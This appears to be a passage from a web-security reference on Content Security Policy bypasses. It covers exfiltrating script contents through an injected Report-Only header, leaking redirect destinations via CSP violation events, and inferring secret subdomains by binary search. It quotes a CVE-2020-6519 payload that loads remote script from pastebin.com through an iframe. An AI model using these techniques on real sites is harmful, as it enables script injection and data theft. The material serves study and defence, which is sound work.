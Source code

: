If you can manage to make the server responds with the header **`Content-Security-Policy-Report-Only`** with a **value controlled by you** (maybe because of a CRLF), you could make it point your server and if you **wraps** the **JS content** you want to exfiltrate with **`<script>`** and because highly probable `unsafe-inline` isn't allowed by the CSP, this will **trigger a CSP error** and part of the script (containing the sensitive info) will be sent to the server from `Content-Security-Policy-Report-Only`.

For an example [**check this CTF writeup**](https://github.com/maple3142/My-CTF-Challenges/tree/master/TSJ%20CTF%202022/Nim%20Notes).

### [CVE-2020-6519](https://www.perimeterx.com/tech-blog/2020/csp-bypass-vuln-disclosure/)

```javascript
document.querySelector("DIV").innerHTML =
  '<iframe src=\'javascript:var s = document.createElement("script");s.src = "https://pastebin.com/raw/dw5cWGK6";document.body.appendChild(s);\'></iframe>'
```

### Leaking Information with CSP and Iframe

- An `iframe` is created that points to a URL (let's call it `https://example.redirect.com`) which is permitted by CSP.
- This URL then redirects to a secret URL (e.g., `https://usersecret.example2.com`) that is **not allowed** by CSP.
- By listening to the `securitypolicyviolation` event, one can capture the `blockedURI` property. This property reveals the domain of the blocked URI, leaking the secret domain to which the initial URL redirected.

It's interesting to note that browsers like Chrome and Firefox have different behaviors in handling iframes with respect to CSP, leading to potential leakage of sensitive information due to undefined behavior.

Another technique involves exploiting the CSP itself to deduce the secret subdomain. This method relies on a binary search algorithm and adjusting the CSP to include specific domains that are deliberately blocked. For example, if the secret subdomain is composed of unknown characters, you can iteratively test different subdomains by modifying the CSP directive to block or allow these subdomains. Here’s a snippet showing how the CSP might be set up to facilitate this method:

```markdown
img-src https://chall.secdriven.dev https://doc-1-3213.secdrivencontent.dev https://doc-2-3213.secdrivencontent.dev ... https://doc-17-3213.secdriven.dev
```

By monitoring which requests are blocked or allowed by the CSP, one can narrow down the possible characters in the secret subdomain, eventually uncovering the full URL.

Both methods exploit the nuances of CSP implementation and behavior in browsers, demonstrating how seemingly secure policies can inadvertently leak sensitive information.

Trick from [**here**](https://ctftime.org/writeup/29310).

<figure><img src="../../images/image (3).png" alt=""><figcaption></figcaption></figure>
